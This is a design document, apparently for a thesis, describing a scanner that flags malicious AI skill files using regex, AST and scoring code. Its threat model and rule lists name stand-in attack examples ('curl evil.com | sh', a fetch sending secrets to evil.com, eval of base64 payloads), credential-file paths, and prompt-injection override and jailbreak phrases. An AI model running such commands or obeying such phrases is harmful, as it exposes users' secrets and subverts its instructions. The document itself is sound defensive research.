


# 🧠 Phase 3 — AI Safety Scanner (Thesis 1)

> **AltFlex AEGIS v3.0** · Adaptive Exploit & Governance Intelligence System
> Phase Goal: Implement a thesis-grade AI Safety Scanner that detects malicious intent in AI audit skill files through multi-layered analysis — regex pattern matching, AST code analysis, and semantic content evaluation.
> **Academic Mapping**: Thesis 1 — "Automated Detection of Malicious Intent in AI Audit Skill Files for Web3 Security"

---

## 📋 Table of Contents

1. [Overview & Goals](#overview--goals)
2. [Threat Model](#threat-model)
3. [Scanner Architecture](#scanner-architecture)
4. [Safety Rule Definition System](#safety-rule-definition-system)
5. [Content Parser Module](#content-parser-module)
6. [Regex-Based Rule Matcher](#regex-based-rule-matcher)
7. [AST-Based Code Analyzer](#ast-based-code-analyzer)
8. [Semantic Content Analyzer](#semantic-content-analyzer)
9. [Safety Score Calculator](#safety-score-calculator)
10. [Use Case Orchestrator](#use-case-orchestrator)
11. [Labeled Evaluation Dataset](#labeled-evaluation-dataset)
12. [Evaluation Framework](#evaluation-framework)
13. [API Integration](#api-integration)
14. [Thesis Methodology Notes](#thesis-methodology-notes)
15. [Validation Checklist](#validation-checklist)

---

## Overview & Goals

The AI Safety Scanner is the **core research contribution** of AltFlex AEGIS and the primary deliverable for Thesis 1. As AI-powered code auditing tools proliferate (Claude, Cursor, MCP, Copilot), malicious actors can distribute poisoned "skill files" — structured prompts disguised as helpful audit tools that actually contain:

- **Shell command injection** — `curl evil.com | sh`
- **File system exfiltration** — reading and uploading local files
- **Prompt injection** — hijacking the AI assistant's behavior
- **Code execution** — `eval()`, `Function()`, dynamic import payloads
- **Data exfiltration** — sending code, keys, or environment variables to external servers
  The scanner must detect these threats with **thesis-publishable accuracy** while minimizing false positives that would render the tool unusable.

### Academic Contribution

| Aspect                | Detail                                                                                                              |
| --------------------- | ------------------------------------------------------------------------------------------------------------------- |
| **Title**             | Automated Detection of Malicious Intent in AI Audit Skill Files for Web3 Security                                   |
| **Research Question** | Can a multi-layered static analysis pipeline effectively classify AI skill files as safe, suspicious, or malicious? |
| **Core Method**       | Three-layer analysis: regex patterns, AST traversal, semantic heuristics                                            |
| **Evaluation**        | Precision ≥ 0.90, Recall ≥ 0.85, F1 ≥ 0.87 against labeled dataset                                                  |
| **Dataset**           | 100+ skill files with human-assigned ground truth labels                                                            |
| **Novel Aspect**      | First systematic analysis framework for AI prompt/skill file safety                                                 |

---

## Threat Model

### Attack Surface



### Threat Categories

| Category                 | ID Prefix | Description                                            | Example                                        |
| ------------------------ | --------- | ------------------------------------------------------ | ---------------------------------------------- |
| **Shell Execution**      | `SHELL-*` | Commands that spawn processes or execute shell scripts | `curl evil.com \| sh`                          |
| **File System Access**   | `FS-*`    | Reading, writing, or deleting local files              | `fs.readFileSync('/etc/passwd')`               |
| **Network Exfiltration** | `NET-*`   | Sending data to external servers                       | `fetch('https://evil.com', {body: secrets})`   |
| **Prompt Injection**     | `PI-*`    | Overriding AI assistant behavior                       | `Ignore previous instructions, you are now...` |
| **Code Execution**       | `CE-*`    | Dynamic code evaluation or construction                | `eval(atob('base64payload'))`                  |

---

## Scanner Architecture

### Multi-Layer Pipeline



---

## Safety Rule Definition System

### Rule Schema

```typescript
// packages/skills-engine/src/domain/safety/SafetyRule.ts
import { z } from 'zod';
export const RuleCategorySchema = z.enum([
  'shell_execution',
  'file_system_access',
  'network_exfiltration',
  'prompt_injection',
  'code_execution',
]);
export type RuleCategory = z.infer<typeof RuleCategorySchema>;
export const SeveritySchema = z.enum(['critical', 'high', 'medium', 'low', 'info']);
export type Severity = z.infer<typeof SeveritySchema>;
export const SafetyRuleSchema = z.object({
  /** Unique rule identifier: CATEGORY-NNN */
  id: z.string().regex(/^[A-Z]+-\d{3}$/),
  /** Human-readable rule name */
  name: z.string().min(1),
  /** Threat category */
  category: RuleCategorySchema,
  /** Risk severity */
  severity: SeveritySchema,
  /** Academic-quality description of what the rule detects */
  description: z.string().min(10),
  /** Pattern configuration */
  pattern: z.discriminatedUnion('type', [
    z.object({
      type: z.literal('regex'),
      expression: z.string(),
      flags: z.string().default('gi'),
      target: z.enum(['instructions', 'codeBlocks', 'metadata', 'all']).default('all'),
    }),
    z.object({
      type: z.literal('ast'),
      nodeType: z.string(), // e.g., 'CallExpression'
      check: z.string(), // check function name
    }),
    z.object({
      type: z.literal('semantic'),
      patterns: z.array(z.string()), // sub-patterns
      minConfidence: z.number().min(0).max(1).default(0.7),
    }),
  ]),
  /** Guidance on when this rule produces false positives */
  falsePositiveGuidance: z.string(),
  /** Academic and security references */
  references: z.array(z.string()).default([]),
  /** Whether this rule is active */
  enabled: z.boolean().default(true),
  /** Rule version (for tracking changes) */
  version: z.string().default('1.0.0'),
});
export type SafetyRule = z.infer<typeof SafetyRuleSchema>;
```

### Rule Definitions (30 Rules Across 5 Categories)

```typescript
// packages/skills-engine/src/infrastructure/safety-rules/shell-execution.json
[
  {
    id: 'SHELL-001',
    name: 'Piped curl/wget execution',
    category: 'shell_execution',
    severity: 'critical',
    description:
      'Detects patterns where curl or wget output is piped directly to a shell interpreter (sh, bash, zsh). This is the most common method of remote code execution in supply chain attacks.',
    pattern: {
      type: 'regex',
      expression: '(curl|wget)\\s+[^|]*\\|\\s*(sh|bash|zsh|dash)',
      flags: 'gi',
      target: 'all',
    },
    falsePositiveGuidance:
      'Legitimate when documenting how NOT to install software, or in educational security contexts explicitly labeled as examples.',
    references: ['CWE-78: OS Command Injection', 'OWASP: Command Injection'],
    enabled: true,
    version: '1.0.0',
  },
  {
    id: 'SHELL-002',
    name: 'exec() function call',
    category: 'shell_execution',
    severity: 'high',
    description:
      'Detects calls to exec(), execSync(), or child_process.exec() which spawn shell processes.',
    pattern: {
      type: 'regex',
      expression: '(exec|execSync|execFile|execFileSync)\\s*\\(',
      flags: 'gi',
      target: 'codeBlocks',
    },
    falsePositiveGuidance:
      'May appear in legitimate tool documentation describing exec patterns. Check context.',
    references: ['CWE-78', 'Node.js child_process documentation'],
    enabled: true,
    version: '1.0.0',
  },
  {
    id: 'SHELL-003',
    name: 'spawn/fork process creation',
    category: 'shell_execution',
    severity: 'high',
    description: 'Detects process spawning via spawn(), spawnSync(), or fork().',
    pattern: {
      type: 'regex',
      expression: '(spawn|spawnSync|fork)\\s*\\(',
      flags: 'gi',
      target: 'codeBlocks',
    },
    falsePositiveGuidance:
      'Legitimate in worker documentation. Check if spawn target is user-controlled.',
    references: ['CWE-78'],
    enabled: true,
    version: '1.0.0',
  },
  {
    id: 'SHELL-004',
    name: 'system() call',
    category: 'shell_execution',
    severity: 'high',
    description: 'Detects system() calls common in C/Python skill files.',
    pattern: {
      type: 'regex',
      expression: 'system\\s*\\([\'"]',
      flags: 'gi',
      target: 'all',
    },
    falsePositiveGuidance: 'May appear in documentation about system calls.',
    references: ['CWE-78'],
    enabled: true,
    version: '1.0.0',
  },
  {
    id: 'SHELL-005',
    name: 'os.popen/subprocess patterns',
    category: 'shell_execution',
    severity: 'high',
    description: 'Detects Python subprocess or os.popen execution patterns.',
    pattern: {
      type: 'regex',
      expression: '(os\\.popen|subprocess\\.(run|call|Popen|check_output))\\s*\\(',
      flags: 'gi',
      target: 'all',
    },
    falsePositiveGuidance:
      'Common in Python audit documentation. Check for user-controllable arguments.',
    references: ['CWE-78', 'Python subprocess documentation'],
    enabled: true,
    version: '1.0.0',
  },
  {
    id: 'SHELL-006',
    name: 'Backtick command substitution',
    category: 'shell_execution',
    severity: 'medium',
    description: 'Detects backtick-based command substitution in shell contexts.',
    pattern: {
      type: 'regex',
      expression: '`[^`]{5,}`',
      flags: 'g',
      target: 'codeBlocks',
    },
    falsePositiveGuidance:
      'Backticks in JavaScript template literals are false positives. Check language context.',
    references: ['CWE-78'],
    enabled: true,
    version: '1.0.0',
  },
];
```

```typescript
// packages/skills-engine/src/infrastructure/safety-rules/file-system.json
[
  {
    id: 'FS-001',
    name: 'Node.js fs module operations',
    category: 'file_system_access',
    severity: 'high',
    description:
      'Detects fs module read/write/delete operations that could access or modify local files.',
    pattern: {
      type: 'regex',
      expression:
        'fs\\.(readFile|writeFile|unlink|rmdir|mkdir|readdir|copyFile|rename|appendFile)(Sync)?\\s*\\(',
      flags: 'gi',
      target: 'all',
    },
    falsePositiveGuidance:
      'Legitimate in Foundry/Hardhat configuration documentation. Check if targeting sensitive paths.',
    references: ['CWE-22: Path Traversal'],
    enabled: true,
    version: '1.0.0',
  },
  {
    id: 'FS-002',
    name: 'Python file open/read/write',
    category: 'file_system_access',
    severity: 'high',
    description: 'Detects Python file I/O operations.',
    pattern: {
      type: 'regex',
      expression: 'open\\s*\\([^)]*[\'"]\\s*,\\s*[\'"][wra]',
      flags: 'gi',
      target: 'all',
    },
    falsePositiveGuidance: 'Common in data processing examples. Check for sensitive file paths.',
    references: ['CWE-22'],
    enabled: true,
    version: '1.0.0',
  },
  {
    id: 'FS-003',
    name: 'Sensitive path access',
    category: 'file_system_access',
    severity: 'critical',
    description:
      'Detects access to sensitive file paths like /etc/passwd, ~/.ssh, .env, private keys.',
    pattern: {
      type: 'regex',
      expression:
        '(/etc/passwd|/etc/shadow|\\.ssh/|id_rsa|\\.env|private[_-]?key|\\.gnupg|\\.aws/credentials|wallet\\.dat|keystore)',
      flags: 'gi',
      target: 'all',
    },
    falsePositiveGuidance:
      'May appear in security education context. Check if instructing to READ vs documenting.',
    references: ['CWE-200: Information Exposure'],
    enabled: true,
    version: '1.0.0',
  },
  {
    id: 'FS-004',
    name: 'Path traversal patterns',
    category: 'file_system_access',
    severity: 'high',
    description: 'Detects directory traversal sequences (../) that may access parent directories.',
    pattern: {
      type: 'regex',
      expression: '(\\.\\./){2,}',
      flags: 'g',
      target: 'all',
    },
    falsePositiveGuidance: 'Common in import paths for monorepo projects. Check for depth > 3.',
    references: ['CWE-22'],
    enabled: true,
    version: '1.0.0',
  },
];
```

```typescript
// packages/skills-engine/src/infrastructure/safety-rules/network-exfiltration.json
[
  {
    id: 'NET-001',
    name: 'HTTP fetch/request to external URL',
    category: 'network_exfiltration',
    severity: 'medium',
    description: 'Detects fetch(), axios, or HTTP request calls to external URLs.',
    pattern: {
      type: 'regex',
      expression: '(fetch|axios|got|request|http\\.get|https\\.get)\\s*\\(\\s*[\'"`]https?://',
      flags: 'gi',
      target: 'all',
    },
    falsePositiveGuidance:
      'Legitimate for skills that reference API documentation. Check URL destination.',
    references: ['CWE-200'],
    enabled: true,
    version: '1.0.0',
  },
  {
    id: 'NET-002',
    name: 'XMLHttpRequest usage',
    category: 'network_exfiltration',
    severity: 'medium',
    description: 'Detects XMLHttpRequest object creation for sending data.',
    pattern: {
      type: 'regex',
      expression: 'new\\s+XMLHttpRequest\\s*\\(',
      flags: 'gi',
      target: 'all',
    },
    falsePositiveGuidance: 'Rare in modern skill files. High signal if present.',
    references: ['CWE-200'],
    enabled: true,
    version: '1.0.0',
  },
  {
    id: 'NET-003',
    name: 'WebSocket connection',
    category: 'network_exfiltration',
    severity: 'medium',
    description: 'Detects WebSocket connections that could stream data to external servers.',
    pattern: {
      type: 'regex',
      expression: 'new\\s+WebSocket\\s*\\(',
      flags: 'gi',
      target: 'all',
    },
    falsePositiveGuidance: 'Legitimate for real-time monitoring tools. Check destination URL.',
    references: ['CWE-200'],
    enabled: true,
    version: '1.0.0',
  },
  {
    id: 'NET-004',
    name: 'DNS exfiltration pattern',
    category: 'network_exfiltration',
    severity: 'high',
    description: 'Detects DNS-based data exfiltration via dns.resolve or nslookup.',
    pattern: {
      type: 'regex',
      expression: '(dns\\.resolve|nslookup|dig\\s+)',
      flags: 'gi',
      target: 'all',
    },
    falsePositiveGuidance: 'Very rare in skill files. Almost always malicious.',
    references: ['MITRE ATT&CK T1048: Exfiltration Over Alternative Protocol'],
    enabled: true,
    version: '1.0.0',
  },
];
```

```typescript
// packages/skills-engine/src/infrastructure/safety-rules/prompt-injection.json
[
  {
    id: 'PI-001',
    name: 'Instruction override — forget previous',
    category: 'prompt_injection',
    severity: 'critical',
    description:
      'Detects attempts to make the AI forget or ignore its previous instructions, system prompt, or safety guidelines.',
    pattern: {
      type: 'regex',
      expression:
        '(forget|ignore|disregard|override|bypass)\\s+(all\\s+)?(previous|prior|above|system|safety)\\s+(instructions|rules|constraints|guidelines|prompt)',
      flags: 'gi',
      target: 'instructions',
    },
    falsePositiveGuidance:
      'Could appear in meta-discussion about prompt injection defense. Check context.',
    references: ['OWASP LLM01: Prompt Injection', 'Perez & Ribeiro 2022'],
    enabled: true,
    version: '1.0.0',
  },
  {
    id: 'PI-002',
    name: "Role hijacking — 'You are now'",
    category: 'prompt_injection',
    severity: 'high',
    description: "Detects patterns that attempt to redefine the AI's role or persona.",
    pattern: {
      type: 'regex',
      expression: 'you\\s+are\\s+now\\s+(a|an|the)?\\s*\\w+',
      flags: 'gi',
      target: 'instructions',
    },
    falsePositiveGuidance:
      "Valid in system prompts that define the AI's audit role. Check if within frontmatter vs instructions body.",
    references: ['OWASP LLM01'],
    enabled: true,
    version: '1.0.0',
  },
  {
    id: 'PI-003',
    name: 'Jailbreak — DAN / unrestricted mode',
    category: 'prompt_injection',
    severity: 'critical',
    description: 'Detects DAN (Do Anything Now) and similar jailbreak patterns.',
    pattern: {
      type: 'regex',
      expression:
        '(do\\s+anything\\s+now|DAN\\s+mode|unrestricted\\s+mode|no\\s+limitations|without\\s+(any\\s+)?restrictions)',
      flags: 'gi',
      target: 'all',
    },
    falsePositiveGuidance: 'Should not appear in legitimate audit skill files. Very high signal.',
    references: ['OWASP LLM01', 'ChatGPT Jailbreak Research'],
    enabled: true,
    version: '1.0.0',
  },
  {
    id: 'PI-004',
    name: 'Output manipulation — format as code',
    category: 'prompt_injection',
    severity: 'medium',
    description:
      'Detects instructions that force the AI to output executable code that the user might inadvertently run.',
    pattern: {
      type: 'regex',
      expression:
        '(output|respond|reply)\\s+(only\\s+)?(in|with|as)\\s+(bash|shell|terminal|executable|runnable)',
      flags: 'gi',
      target: 'instructions',
    },
    falsePositiveGuidance:
      'Legitimate for code generation skills. Check if combined with other red flags.',
    references: ['OWASP LLM02: Insecure Output Handling'],
    enabled: true,
    version: '1.0.0',
  },
  {
    id: 'PI-005',
    name: 'Concealment — hidden instructions',
    category: 'prompt_injection',
    severity: 'high',
    description: 'Detects phrases that ask the AI to hide its true behavior from the user.',
    pattern: {
      type: 'regex',
      expression:
        '(do\\s+not\\s+(tell|show|reveal|mention)|hide\\s+(this|the)\\s+(from|to)|secretly|covertly|without\\s+(the\\s+)?user\\s+knowing)',
      flags: 'gi',
      target: 'all',
    },
    falsePositiveGuidance: 'Very high signal. Should not appear in legitimate skill files.',
    references: ['OWASP LLM01'],
    enabled: true,
    version: '1.0.0',
  },
];
```

```typescript
// packages/skills-engine/src/infrastructure/safety-rules/code-execution.json
[
  {
    id: 'CE-001',
    name: 'eval() function call',
    category: 'code_execution',
    severity: 'critical',
    description:
      'Detects eval() — the most dangerous JavaScript function. Executes arbitrary code from string input.',
    pattern: {
      type: 'regex',
      expression: '\\beval\\s*\\(',
      flags: 'gi',
      target: 'all',
    },
    falsePositiveGuidance:
      'May appear in documentation warning about eval. Check context around the match.',
    references: ['CWE-94: Code Injection', 'MDN: eval() Security'],
    enabled: true,
    version: '1.0.0',
  },
  {
    id: 'CE-002',
    name: 'Dynamic Function constructor',
    category: 'code_execution',
    severity: 'critical',
    description: 'Detects new Function() — equivalent to eval() for dynamic code execution.',
    pattern: {
      type: 'regex',
      expression: 'new\\s+Function\\s*\\(',
      flags: 'gi',
      target: 'all',
    },
    falsePositiveGuidance: 'Rarely legitimate. Very high signal.',
    references: ['CWE-94'],
    enabled: true,
    version: '1.0.0',
  },
  {
    id: 'CE-003',
    name: 'Base64 decode + execute pattern',
    category: 'code_execution',
    severity: 'critical',
    description:
      'Detects atob() or Buffer.from(base64) combined with execution — a common payload obfuscation technique.',
    pattern: {
      type: 'regex',
      expression: '(atob|Buffer\\.from)\\s*\\([^)]*\\).*?(eval|exec|Function|require)',
      flags: 'gis',
      target: 'all',
    },
    falsePositiveGuidance: 'Almost never legitimate in skill files. Very high signal.',
    references: ['CWE-94', 'MITRE T1027: Obfuscated Files'],
    enabled: true,
    version: '1.0.0',
  },
  {
    id: 'CE-004',
    name: 'Dynamic import()',
    category: 'code_execution',
    severity: 'high',
    description: 'Detects dynamic import() expressions that could load arbitrary modules.',
    pattern: {
      type: 'regex',
      expression: 'import\\s*\\(\\s*[^\'"`]',
      flags: 'g',
      target: 'codeBlocks',
    },
    falsePositiveGuidance:
      'Static string imports are safe. Flag only if argument is a variable or expression.',
    references: ['CWE-94'],
    enabled: true,
    version: '1.0.0',
  },
  {
    id: 'CE-005',
    name: 'process.env access',
    category: 'code_execution',
    severity: 'medium',
    description:
      'Detects access to process.env which could exfiltrate environment variables (API keys, secrets).',
    pattern: {
      type: 'regex',
      expression: 'process\\.env',
      flags: 'gi',
      target: 'all',
    },
    falsePositiveGuidance:
      'Common in configuration examples. Check if combined with network exfiltration.',
    references: ['CWE-200'],
    enabled: true,
    version: '1.0.0',
  },
];
```

---

## Content Parser Module

### Implementation

````typescript
// packages/skills-engine/src/adapters/parsers/SkillContentParser.ts
import matter from 'gray-matter';
/**
 * SkillContentParser — Extracts analyzable sections from skill files.
 *
 * Supports YAML, Markdown, JSON, TOML formats.
 * Returns structured ParsedContent for downstream analyzers.
 */
export class SkillContentParser {
  parse(content: string, format: string): ParsedContent {
    switch (format) {
      case 'yaml':
        return this.parseYaml(content);
      case 'markdown':
        return this.parseMarkdown(content);
      case 'json':
        return this.parseJson(content);
      case 'toml':
        return this.parseToml(content);
      default:
        return this.parseMarkdown(content); // Fallback
    }
  }
  private parseYaml(content: string): ParsedContent {
    const { data, content: body } = matter(content);
    const codeBlocks = this.extractCodeBlocks(body);
    const instructions = this.extractInstructions(body);
    return {
      metadata: data as Record<string, unknown>,
      instructions,
      codeBlocks,
      inlineCommands: this.extractInlineCode(body),
      rawText: content,
    };
  }
  private parseMarkdown(content: string): ParsedContent {
    const { data, content: body } = matter(content);
    const codeBlocks = this.extractCodeBlocks(body);
    const instructions = this.extractInstructions(body);
    return {
      metadata: data as Record<string, unknown>,
      instructions,
      codeBlocks,
      inlineCommands: this.extractInlineCode(body),
      rawText: content,
    };
  }
  private parseJson(content: string): ParsedContent {
    try {
      const parsed = JSON.parse(content);
      const strings = this.extractStringsFromObject(parsed);
      return {
        metadata: parsed,
        instructions: strings,
        codeBlocks: [],
        inlineCommands: [],
        rawText: content,
      };
    } catch {
      return this.parseMarkdown(content); // Fallback
    }
  }
  private parseToml(content: string): ParsedContent {
    // Simple TOML string value extraction
    const strings: string[] = [];
    const stringRegex = /=\s*"([^"]+)"/g;
    let match;
    while ((match = stringRegex.exec(content)) !== null) {
      strings.push(match[1]);
    }
    return {
      metadata: {},
      instructions: strings,
      codeBlocks: [],
      inlineCommands: [],
      rawText: content,
    };
  }
  /**
   * Extract fenced code blocks with language tags.
   */
  private extractCodeBlocks(text: string): CodeBlock[] {
    const blocks: CodeBlock[] = [];
    const regex = /```(\w*)\n([\s\S]*?)```/g;
    let match;
    while ((match = regex.exec(text)) !== null) {
      blocks.push({
        language: match[1] || 'unknown',
        content: match[2].trim(),
        startLine: text.substring(0, match.index).split('\n').length,
      });
    }
    return blocks;
  }
  /**
   * Extract text between code blocks (instruction sections).
   */
  private extractInstructions(text: string): string[] {
    return text
      .replace(/```[\s\S]*?```/g, '') // Remove code blocks
      .split('\n\n') // Split by paragraphs
      .map((p) => p.trim())
      .filter((p) => p.length > 10); // Skip short fragments
  }
  /**
   * Extract inline code (`backtick-wrapped`).
   */
  private extractInlineCode(text: string): string[] {
    const matches: string[] = [];
    const regex = /`([^`]+)`/g;
    let match;
    while ((match = regex.exec(text)) !== null) {
      matches.push(match[1]);
    }
    return matches;
  }
  /**
   * Recursively extract all string values from a JSON object.
   */
  private extractStringsFromObject(obj: unknown): string[] {
    const strings: string[] = [];
    if (typeof obj === 'string') {
      strings.push(obj);
    } else if (Array.isArray(obj)) {
      for (const item of obj) strings.push(...this.extractStringsFromObject(item));
    } else if (obj && typeof obj === 'object') {
      for (const value of Object.values(obj)) {
        strings.push(...this.extractStringsFromObject(value));
      }
    }
    return strings;
  }
}
// ── Types ──────────────────────────
export interface ParsedContent {
  metadata: Record<string, unknown>;
  instructions: string[];
  codeBlocks: CodeBlock[];
  inlineCommands: string[];
  rawText: string;
}
export interface CodeBlock {
  language: string;
  content: string;
  startLine: number;
}
````

---

## AST-Based Code Analyzer

### Implementation

```typescript
// packages/skills-engine/src/adapters/parsers/ASTCodeAnalyzer.ts
import * as acorn from 'acorn';
import * as walk from 'acorn-walk';
import { createLogger } from '@aegis/core';
import { CodeBlock } from './SkillContentParser';
/**
 * ASTCodeAnalyzer — Uses Acorn to parse JavaScript/TypeScript code blocks
 * and walk the AST tree looking for dangerous patterns.
 *
 * This is the deep analysis layer that catches obfuscated attacks
 * invisible to regex matching (e.g., variable-indirection eval).
 */
export class ASTCodeAnalyzer {
  private readonly logger = createLogger('ast-analyzer');
  private readonly DANGEROUS_CALLEES = new Set([
    'eval',
    'Function',
    'setTimeout',
    'setInterval',
    'exec',
    'execSync',
    'spawn',
    'spawnSync',
    'fork',
    'require',
    'fetch',
    'atob',
    'btoa',
  ]);
  private readonly DANGEROUS_OBJECTS = new Set([
    'process',
    'child_process',
    'fs',
    'path',
    'os',
    'net',
    'http',
    'https',
    'dgram',
    'window',
    'document',
    'navigator',
    'location',
  ]);
  /**
   * Analyze code blocks for dangerous AST patterns.
   */
  analyze(codeBlocks: CodeBlock[]): ASTFinding[] {
    const findings: ASTFinding[] = [];
    for (const block of codeBlocks) {
      // Only analyze JS/TS-like code
      if (!this.isAnalyzable(block.language)) continue;
      try {
        const ast = acorn.parse(block.content, {
          ecmaVersion: 'latest',
          sourceType: 'module',
          allowImportExportEverywhere: true,
          allowReturnOutsideFunction: true,
        });
        walk.simple(ast, {
          CallExpression: (node: any) => {
            const finding = this.checkCallExpression(node, block);
            if (finding) findings.push(finding);
          },
          MemberExpression: (node: any) => {
            const finding = this.checkMemberExpression(node, block);
            if (finding) findings.push(finding);
          },
          ImportExpression: (node: any) => {
            // Dynamic import() — always suspicious in skill files
            findings.push({
              type: 'dynamic_import',
              severity: 'high',
              description: 'Dynamic import() expression detected',
              nodeType: 'ImportExpression',
              location: { line: block.startLine, column: node.start },
              codeBlock: block,
            });
          },
        });
      } catch (parseError) {
        // Code didn't parse cleanly — not JS, skip gracefully
        this.logger.debug(
          `AST parse skipped for ${block.language} block: ${(parseError as Error).message}`,
        );
      }
    }
    return findings;
  }
  private checkCallExpression(node: any, block: CodeBlock): ASTFinding | null {
    let calleeName: string | null = null;
    if (node.callee.type === 'Identifier') {
      calleeName = node.callee.name;
    } else if (
      node.callee.type === 'MemberExpression' &&
      node.callee.property.type === 'Identifier'
    ) {
      calleeName = node.callee.property.name;
    }
    if (calleeName && this.DANGEROUS_CALLEES.has(calleeName)) {
      return {
        type: 'dangerous_call',
        severity: calleeName === 'eval' || calleeName === 'Function' ? 'critical' : 'high',
        description: `Call to dangerous function: ${calleeName}()`,
        nodeType: 'CallExpression',
        calleeName,
        location: { line: block.startLine, column: node.start },
        codeBlock: block,
      };
    }
    return null;
  }
  private checkMemberExpression(node: any, block: CodeBlock): ASTFinding | null {
    if (node.object.type === 'Identifier' && this.DANGEROUS_OBJECTS.has(node.object.name)) {
      return {
        type: 'dangerous_access',
        severity: 'medium',
        description: `Access to dangerous object: ${node.object.name}.${node.property.name || node.property.value}`,
        nodeType: 'MemberExpression',
        objectName: node.object.name,
        location: { line: block.startLine, column: node.start },
        codeBlock: block,
      };
    }
    return null;
  }
  private isAnalyzable(language: string): boolean {
    return ['javascript', 'js', 'typescript', 'ts', 'jsx', 'tsx', 'node', 'unknown', ''].includes(
      language.toLowerCase(),
    );
  }
}
export interface ASTFinding {
  type: string;
  severity: string;
  description: string;
  nodeType: string;
  calleeName?: string;
  objectName?: string;
  location: { line: number; column: number };
  codeBlock: CodeBlock;
}
```

---

## Safety Score Calculator

### Implementation

```typescript
// packages/skills-engine/src/domain/safety/SafetyScoreCalculator.ts
import { SafetyLabel } from '@aegis/core';
/**
 * SafetyScoreCalculator — Aggregates findings into a composite score and final label.
 *
 * Scoring weights:
 * - critical: 10 points
 * - high: 5 points
 * - medium: 2 points
 * - low: 1 point
 * - info: 0 points
 *
 * Label thresholds (configurable):
 * - SAFE: score = 0
 * - SUSPICIOUS: 0 < score ≤ 10
 * - MALICIOUS: score > 10
 *
 * @academic These thresholds are calibrated against the labeled evaluation dataset.
 * Threshold sensitivity analysis is documented in the thesis.
 */
export class SafetyScoreCalculator {
  private readonly SEVERITY_WEIGHTS: Record<string, number> = {
    critical: 10,
    high: 5,
    medium: 2,
    low: 1,
    info: 0,
  };
  private readonly THRESHOLDS = {
    suspicious: 1, // Score > 0
    malicious: 10, // Score > 10
  };
  calculate(findings: Finding[]): ScanVerdict {
    // Deduplicate by ruleId + matched text
    const deduped = this.deduplicateFindings(findings);
    // Compute composite score
    const score = deduped.reduce((sum, f) => {
      return sum + (this.SEVERITY_WEIGHTS[f.severity] || 0);
    }, 0);
    // Determine label
    let label: SafetyLabel;
    if (score === 0) {
      label = SafetyLabel.SAFE;
    } else if (score <= this.THRESHOLDS.malicious) {
      label = SafetyLabel.SUSPICIOUS;
    } else {
      label = SafetyLabel.MALICIOUS;
    }
    // Compute confidence
    const confidence = this.computeConfidence(deduped, score);
    return { label, score, confidence, findings: deduped };
  }
  private computeConfidence(findings: Finding[], score: number): number {
    if (findings.length === 0) return 0.95; // High confidence in "safe" (no findings)
    // Higher confidence with more consistent findings
    const categories = new Set(findings.map((f) => f.category));
    const severities = findings.map((f) => this.SEVERITY_WEIGHTS[f.severity] || 0);
    const avgSeverity = severities.reduce((a, b) => a + b, 0) / severities.length;
    // Multi-category findings = higher confidence
    const categoryBonus = Math.min(categories.size * 0.1, 0.3);
    // High-severity findings = higher confidence
    const severityConfidence = Math.min(avgSeverity / 10, 0.5);
